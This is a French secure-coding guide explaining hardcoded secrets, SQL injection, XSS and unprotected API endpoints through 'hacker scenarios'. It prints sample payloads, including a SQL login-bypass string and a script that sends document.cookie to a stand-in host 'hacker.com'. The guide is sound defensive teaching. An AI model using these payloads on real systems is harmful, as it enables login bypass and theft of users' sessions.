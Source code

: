 # Directives de Sécurité VibeCoding Expliquées : Pourquoi Insistons-nous Autant ?

Ce document explique l'importance de chaque règle dans les "Directives de Sécurité". Comprendre cela vous aidera à voir votre code du "point de vue d'un hacker" et à prévenir les problèmes avant qu'ils ne surviennent.

---

## ⭐ Règles d'Or

### 【Ne jamais coder en dur les secrets】 & 【Utiliser les variables d'environnement】 & 【Ignorer les fichiers secrets】

**Pourquoi est-ce important ?**

Ces trois règles sont les lois de survie suprêmes du monde numérique. Votre code (surtout lors de l'utilisation de Git) sera copié, partagé et stocké à plusieurs endroits. Écrire des mots de passe, clés API et autres "secrets" directement dans le code, c'est comme tatouer le mot de passe de votre coffre-fort sur votre front - quiconque vous voit (voit le code) peut facilement ouvrir votre coffre-fort.

**Scénario du Hacker 😈**
> J'adore chercher `password`, `api_key` ou `db_connect` sur GitHub. J'ai trouvé votre projet public et dans un fichier appelé `config.js`, j'ai vu ce code : `const db_password = 'Password123!';`. Parfait ! Je n'ai même pas besoin d'attaquer votre site - je peux maintenant essayer directement de me connecter à votre base de données avec ce mot de passe.

**Conséquences Catastrophiques 💥**

**Prise de contrôle complète du service.** Les hackers peuvent voler, altérer, supprimer toutes vos données utilisateur, ou utiliser vos services API payants pour des activités illégales, toutes les factures étant à votre charge.

---

## 📥 Traitement des Entrées Utilisateur

### 【Prévenir les Attaques par Injection (SQL Injection)】

**Pourquoi est-ce important ?**

Imaginez la base de données comme un robot qui ne comprend que le langage SQL. Si vous concaténez directement les entrées utilisateur avec vos commandes, les utilisateurs ont l'opportunité de prononcer leurs propres "commandes". Les requêtes paramétrées disent au robot : "Écoute, la partie suivante est **juste des données** - peu importe le contenu, ne l'exécute pas comme des commandes."

**Scénario du Hacker 😈**
> Dans la boîte de connexion de votre site, j'ai entré `' OR '1'='1' --` comme nom d'utilisateur. Je suppose que votre requête SQL est écrite ainsi : `"SELECT * FROM users WHERE username = '" + userInput + "';"`. Mon entrée l'a transformée en `SELECT * FROM users WHERE username = '' OR '1'='1' --';`. `'1'='1'` est toujours vrai, donc j'ai contourné la vérification du mot de passe et me suis connecté avec succès au premier compte utilisateur (généralement l'administrateur).

**Conséquences Catastrophiques 💥**

Les attaquants peuvent contourner la connexion, voler toutes les données de la base de données (listes d'utilisateurs, hashes de mots de passe), voire supprimer la base de données.

### 【Prévenir les Attaques de Script Inter-Sites (XSS)】

**Pourquoi est-ce important ?**

Si votre site web est comme un miroir qui reflète directement le contenu des entrées utilisateur, alors les utilisateurs peuvent intégrer des scripts JavaScript malveillants dans le contenu. Lorsque d'autres utilisateurs parcourent ce contenu, le script malveillant s'exécutera dans leurs navigateurs, volant leurs informations. L'encodage d'entités HTML convertit les caractères spéciaux dans les scripts malveillants (comme `<`, `>`) en texte clair inoffensif, les rendant impossibles à exécuter.

**Scénario du Hacker 😈**
> J'ai laissé un commentaire dans la section commentaires de votre article : `<script>fetch('https://hacker.com/steal?cookie=' + document.cookie)</script>`. Ce texte a été stocké tel quel dans la base de données. Maintenant, tout utilisateur qui lit ce commentaire aura son navigateur qui exécutera automatiquement ce script, envoyant ses cookies de connexion vers mon serveur. Avec les cookies, je peux usurper leur identité pour me connecter au site web.

**Méthode d'Attaque Avancée : Comment le Code de l'Utilisateur A Peut-il Voler les Données de l'Utilisateur B ?**

Beaucoup de personnes se demandent : "L'attaquant n'a pas modifié mon site web, alors comment peut-il voler les données d'autres utilisateurs ?" Laissez-moi l'expliquer avec un exemple complet :

1. **L'attaquant A crée un lien malveillant**
   ```
   https://yoursite.com/detail.php?id=1<script>steal()</script>
   ```

2. **L'attaquant trompe la victime B par ingénierie sociale**
   - Email : "Regardez le travail fantastique de ce photographe !"
   - Publications sur les réseaux sociaux, commentaires de forum, etc.

3. **Que se passe-t-il quand la victime B clique sur le lien ?**
   ```php
   // Votre code (vulnérable)
   <meta property="og:url" content="<?php echo $_SERVER['REQUEST_URI']; ?>">
   
   // Sortie réelle vers le navigateur de B
   <meta property="og:url" content="/detail.php?id=1<script>steal()</script>">
   ```

4. **Pourquoi peuvent-ils voler les données de B ?**
   - B est déjà connecté à votre site web
   - Le script malveillant s'exécute sous **votre domaine**, il peut donc :
     - Lire les cookies de B (identifiants de connexion)
     - Accéder au localStorage de B
     - Faire des requêtes au nom de B
     - Modifier le contenu de la page (ex : formulaires de connexion falsifiés)

**Analogie Simple**
Imaginez que votre site web soit une banque :
- L'attaquant A place un "faux bordereau de retrait" (script malveillant) dans le hall de la banque
- Le client B pense que c'est légitime et saisit son mot de passe
- A obtient le mot de passe de B

XSS permet aux attaquants de placer des "faux bordereaux de retrait" (code malveillant) dans votre "hall de banque" (site web).

C'est pourquoi vous devez utiliser `htmlspecialchars()` - cela garantit que toutes les entrées utilisateur sont affichées comme du texte clair, pas comme du code exécutable.

**Conséquences Catastrophiques 💥**

Vol massif de comptes utilisateur, fuite de données personnelles, sites web infiltrés avec du contenu de phishing ou des scripts de minage.

---

## 🔐 Permissions et Authentification

### 【Protection des Points de Terminaison API】

**Pourquoi est-ce important ?**

Les interfaces frontend (UI) peuvent cacher des boutons, mais les hackers ne se fient jamais aux interfaces. Ils appellent directement vos API backend avec des outils (comme Postman, curl). Vous devez supposer que chaque point de terminaison API sera attaqué directement, donc chaque point de terminaison doit être un garde indépendant, vérifiant lui-même l'identité et les permissions des visiteurs.

**Scénario du Hacker 😈**
> J'ai découvert que pour modifier les informations personnelles, le frontend envoie une requête à `/api/user/update`. Bien que je ne puisse pas voir les boutons de modification d'autres personnes, je suppose que cette API distingue les utilisateurs via `userId`. J'ai essayé d'envoyer une requête à `/api/user/update?userId=1` (ID de l'administrateur) avec les données que je voulais modifier. Mon Dieu, le serveur n'a pas vérifié si la requête venait de moi personnellement et a réussi à changer l'email de l'administrateur !

**Conséquences Catastrophiques 💥**

Les utilisateurs ordinaires peuvent altérer les données d'autres utilisateurs ou même des administrateurs, ou exécuter des permissions qu'ils ne devraient pas avoir, causant un chaos système.